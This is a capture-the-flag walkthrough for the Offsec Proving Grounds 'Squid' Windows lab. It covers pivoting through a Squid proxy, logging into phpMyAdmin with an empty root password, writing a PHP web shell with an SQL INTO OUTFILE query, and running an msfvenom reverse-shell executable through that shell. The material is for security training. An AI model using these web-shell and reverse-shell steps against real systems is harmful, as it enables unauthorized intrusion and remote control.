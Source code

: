 ```yaml
---
title: "Proving grounds Practice: Squid"
layout: post
date: 2023-08-20 06:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Windows
- Pg-Practice
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds practice windows machine writeup"
---
```

## Nmap

```sh
PORT     STATE SERVICE    VERSION
3128/tcp open  http-proxy Squid http proxy 4.14
|_http-server-header: squid/4.14
|_http-title: ERROR: The requested URL could not be retrieved
```

Squid http proxy service running on PORT 3128. Use [Squid Pivoting Open Port Scanner](https://github.com/aancw/spose) to perform PORT scanning.

![img](/assets/images/CTF/Proving_Grounds/Squid/pscan.png)

Configure the proxy `server IP` and `PORT` in the browser to access the webserver running on PORT 8080.

![img](/assets/images/CTF/Proving_Grounds/Squid/8080.png)

**System Information**

![img](/assets/images/CTF/Proving_Grounds/Squid/sysinfo.png)

**PHPMyadmin**

![img](/assets/images/CTF/Proving_Grounds/Squid/myadmin.png)

Login with username `root` and password as `null`.

Execute below sql query to create reverse shell.

```sql
SELECT "<?php system($_GET['cmd'])?>" INTO OUTFILE "C:/wamp/www/shell2.php"
```

As shown in the phpinfo() page the document root folder is `C:/wamp/www`. So the shell will be publicly accessible at `http://192.168.237.189:8080/shell2.php`.

## Remote Code Execution

```text
http://192.168.237.189:8080/shell2.php?cmd=whoami
```

![img](/assets/images/CTF/Proving_Grounds/Squid/if.png)

## Obtain Stable Shell using msfvenom

```sh
msfvenom -f exe -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=1234 -o mshell.exe
```

Use curl to download the shell in to the attacking machine. Run a `nc` llisterner and execute the reverse shell by visiting `http://192.168.237.189:8080/shell2.php?cmd=mshell.exe`

![img](/assets/images/CTF/Proving_Grounds/Squid/rshell.png)

Reverse shell obtained.

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).